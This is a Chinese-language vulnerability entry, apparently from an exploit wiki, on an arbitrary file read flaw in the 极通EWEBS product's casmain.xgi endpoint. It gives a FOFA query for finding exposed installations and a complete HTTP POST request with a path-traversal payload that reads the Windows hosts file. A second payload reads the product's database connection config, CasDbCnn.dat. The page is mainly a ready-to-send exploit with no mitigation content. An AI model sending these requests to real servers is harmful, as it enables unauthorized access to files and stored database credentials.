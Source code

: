 # 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> 极通EWEBS

## FOFA

> [!NOTE]
>
> app="新软科技-极通EWEBS"

## 漏洞复现

登录页面如下

![image-20210615125923544](http://wikioss.peiqi.tech/vuln/image-20210615125923544.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞请求包为

```
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```

![image-20210615130137932](http://wikioss.peiqi.tech/vuln/image-20210615130137932.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以配合 testweb.php 信息泄露读取敏感信息

```
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

